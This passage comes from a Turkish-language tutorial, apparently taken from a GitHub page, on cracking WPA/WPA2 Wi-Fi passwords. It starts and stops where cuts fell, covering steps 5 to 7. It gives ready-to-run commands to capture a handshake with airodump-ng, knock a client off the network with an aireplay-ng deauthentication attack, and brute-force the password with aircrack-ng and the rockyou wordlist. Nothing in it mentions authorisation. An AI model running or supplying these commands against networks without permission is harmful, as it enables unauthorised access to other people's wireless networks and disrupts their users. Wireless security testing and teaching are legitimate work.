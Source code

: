 **📌 Örnek:**

**bash**

**sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon**

**💡 Bu komut, hedef ağı sadece belirtilen kanal üzerinden izler ve handshake paketlerini kaydeder.**

## **📌 5️⃣ Handshake Paketini Yakalamak**

**📡 Handshake'i yakalamak için istemcinin ağa bağlanmasını bekleyebiliriz ya da "Deauth Saldırısı" ile bağlantısını kopartıp yeniden bağlanmaya zorlayabiliriz.**

**1️⃣ Eğer bir istemci zaten bağlıysa, bekleyerek handshake yakalanabilir.
2️⃣ Eğer istemci bağlı değilse, "Deauthentication Attack" yaparak zorla bağlantıyı kesebiliriz.**

**🔹 Deauth Saldırısı Yapmak:**

**bash**

**sudo aireplay-ng -0 10 -a [BSSID] -c [İSTEMCİ\_MAC] wlan0mon**

**📌 Örnek:**

**bash**

**sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon**

**💡 Bu komut, belirlenen istemciyi 10 defa bağlantıdan düşürerek tekrar bağlanmasını sağlar.
💡 Bağlantı tekrar sağlandığında, WPA handshake paketi kaydedilir.**

## **📌 6️⃣ Handshake’in Yakalandığını Kontrol Etmek**

**📡 Handshake'in yakalanıp yakalanmadığını kontrol etmek için şu komutu kullanabilirsiniz:**

**bash**

**ls -l handshake\***

**📌 Eğer "handshake-01.cap" gibi bir dosya oluşturulduysa, işlem başarılıdır!**

**💡 Ayrıca, Wireshark kullanarak ".cap" dosyasını açabilir ve "EAPOL" paketlerini kontrol edebilirsiniz.**

## **📌 7️⃣ Handshake Kırma (Brute Force Saldırısı)**

**🚀 Yakalanan handshake paketini kullanarak WPA/WPA2 şifresini kırmaya çalışabiliriz.**

**1️⃣ Aircrack-ng ile Şifre Kırma:**

**bash**

**sudo aircrack-ng -w [WORDLIST] -b [BSSID] handshake-01.cap**

**📌 Örnek:**

**bash**

**sudo aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF handshake-01.cap**
